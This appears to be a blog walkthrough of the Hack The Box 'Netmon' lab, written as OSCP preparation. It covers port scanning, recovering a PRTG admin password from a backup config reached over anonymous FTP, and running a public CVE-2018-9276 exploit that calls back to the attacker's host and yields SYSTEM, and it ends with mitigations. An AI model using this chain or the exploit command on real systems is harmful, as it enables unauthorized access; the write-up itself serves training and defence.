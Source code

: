 ```yaml
---
title: Netmon
date: 2025-04-21
categories: [oscp, HTB]
tags: [oscp-preparation, walkthrough] 
image: netmon.png
media_subpath: /assets/img/posts/2025-04-21-netmonHTB/
---
```

## Introduction
In this walkthrough we will be solving Hack The Box Easy Windows box Netmon. Let’s start ..
## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check first 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

![image.png](image%202.png)

I have noticed MD5 hash, and with purpose not to miss anything I tried to crack but it didn’t yield anything.

## Services

### Port 21

Anonymous login is allowed and we get access to filesystem.

### Port 139/445

```bash
smbclient -L //$IP/ -N
```

![image.png](image%203.png)

Cannot access SMB.

## Web

### Port 80

**PRTG 18.1.37.13946**

Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)

I tried default credentials `prtgadmin : prtgadmin` but it didn’t work.

**Feroxbuster**

```bash
feroxbuster -u [http://$IP/](http://$ip/) -C 404,403,400 -w /usr/share/wordlists/dirb/common.txt
```

![image.png](image%204.png)

I think we should find a newly-set password inside ftp service.

I need something like configuration file so I searched for default configuration file location of PRTG NetMon and found the following `\ProgramData\Paessler\PRTG Network Monitor`

> The ProgramData directory in Windows is not visible by default because it is a hidden system folder. It is set to "Hidden" in its file attributes to prevent accidental modification by users, as it stores critical application data and settings shared across users.
{: .prompt-info }


![image.png](image%205.png)

There is nothing in `PRTG Configuration.dat` and `PRTG Configuration.old` I have found some base64 encoded strings but they decode to non-ascii characters.

I opened files with sublime text and searched for string `pass` and found nothing, but when I opened `"PRTG Configurat.old.bak"` just the first match showed me the password for prtgadmin user:

## Credentials

```bash
prtgadmin:PrTg@dmin2018
```

## Exploitation

I used these credentials for logging in but they seemed to not work, then I realized that this is old backup file, I saw that current config file is of date 2019, so I changed the year to 2019.

I found a vulnerability for this version of PRTG NetMon, but it was a bit weird code [ExploitDB](https://www.exploit-db.com/exploits/46527) , then I searched that exploit python code in hosted in github and found this code:

[https://github.com/A1vinSmith/CVE-2018-9276/blob/main/README.md](https://github.com/A1vinSmith/CVE-2018-9276/blob/main/README.md)

I executed it:

![image.png](image%206.png)

```bash
python3 [exploit.py](http://exploit.py/) -i $IP -p 80 --lhost 10.10.14.6 --lport 80 --user prtgadmin --password PrTg@dmin2019
```

![image.png](image%207.png)

Now we are nt authrority\system!.

## Mitigation

- **Restrict FTP Access**
    
    Disable anonymous FTP access or restrict it to specific directories with non-sensitive content. Use authentication and enforce least privilege access controls.
    
- **Secure Configuration Files**
    
    Avoid storing plaintext credentials or sensitive information in configuration files accessible to low-privilege users or services. Store them with proper permissions and encryption where possible.
    
- **Patch Vulnerable Software**
    
    Keep PRTG Network Monitor and all third-party software updated to the latest versions to address known vulnerabilities, especially those enabling RCE.
    
- **Limit Privileges of Monitoring Services**
    
    Run PRTG and similar services with minimal required privileges instead of SYSTEM-level to reduce the impact of a potential compromise.
    
- **Monitor Network and File Access**
    
    Implement logging and monitoring for suspicious file access patterns and unauthorized configuration file reads, especially from publicly accessible services like FTP.
    
- **Network Segmentation**
    
    Isolate monitoring systems like PRTG from public-facing services and use firewall rules to restrict access only to trusted hosts.
